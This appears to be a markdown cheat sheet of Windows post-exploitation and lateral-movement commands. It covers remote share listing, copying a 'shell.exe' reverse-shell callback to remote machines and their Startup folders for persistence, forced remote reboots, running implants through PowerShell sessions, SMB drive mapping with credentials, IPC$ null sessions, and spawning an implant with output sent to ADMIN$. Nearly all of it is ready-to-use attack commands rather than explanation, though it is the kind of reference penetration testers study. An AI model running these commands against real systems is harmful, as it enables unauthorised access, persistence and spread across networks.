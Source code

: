 # Living off the Land

Search Tag(s): #post-exploitation #lateral-movement #remote-file-access #living-off-the-land #windows

## 01 - List Files and Directories

### 1.1 - Command Prompt

List files and directories remotely

```
C:\> dir \\<IP>\c$
```

List all the files and directories

```
C:\> dir /s /b \\<IP>\c$ > files.txt
```

### 1.2 - Powershell

List files and directories remotely

```
PS C:\> Get-ChildItem \\<IP>\C$
```

List all the files and directories

```
C:\> ChildItem -Recurse \\<IP>\C$ > files.txt
```

## 02 - Copy Files

### 2.1 - Command Prompt

#### 2.1.1 - Copy Files Remotely

```
C:\> copy shell.exe \\<IP>\c$\folder\shell.exe

C:\> xcopy shell.exe \\<IP>\c$\folder\shell.exe

C:\> robocopy <source> <destination> <files>

C:\> robocopy \\<IP>\c$\folder\shell.exe shell.exe
```

#### 2.1.2 - Copy reverse shell callback on `Startup` folder

```
C:\> xcopy shell.exe "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\> robocopy C:\ "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" shell.exe

C:\> shutdown /t 0 /r /m \\<IP>
```

### 2.2 - Powershell

#### 2.2.1 - Copy Files Remotely

```
PS C:\> Copy-Item shell.exe -Destination \\<IP>\C$\shell.exe
```

Copy the callback shell and execute it via powershell cmdlet.

```
PS C:\> $ip = New-PSSession -Computer <IP>

Copy-Item "C:\path\to\shell.exe" -Destination "C:\path\to\folder\" -ToSession $ip

icm -Session $ip -ScriptBlock { C:\path\to\shell.exe }
```

#### 2.2.2 - Copy reverse shell callback on `Startup` folder

```
PS C:\> Copy-Item shell.exe -destination "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

PS C:\> Restart-Computer -ComputerName <IP> -Force
```

## 03 - Mapping SMB Drive Network

### 3.1 - Command Prompt

```
C:\> net use Z: \\<IP>\c$

C:\> net use Z: \\<IP>\C$ /user:"<username>" "<password>"

C:\> dir Z:\

C:\> net use Z: /delete
```

### 3.2 - Powershell

```
PS C:\> New-PSDrive -Name <drive_name> -PSProvider FileSystem -Credential $credential \\<IP>\<share_name>

PS C:\> Get-ChildItem <drive_name>:
```

To remove the mounted drive.

```
PS C:\> Remove-PSDrive -Name <drive_name>
```

## 04 - Manual Null Session

### 4.1 - Command Prompt

Authenticate null session with `IPC$` via net use commands to allow the user to execute any other commands remotely.

```
C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>"

C:\> dir \\<IP>

C:\> net view \\<IP>
```

Ignore the authentication while authenticating session.

```
C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>" > %TEMP%\~temp3936t.tmp 2>&1
```

## 05 - Spawn Implant

### 5.1 - Command Prompt

```
C:\> cmd.exe /q /c "C:\path\to\shell.exe" 1> \\<IP>\ADMIN$\<filename> 2>&1
```

## 06 - Terminate all the sessions

### 6.1 - Command Prompt

```
C:\> net use /delete *
```

---
## References

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)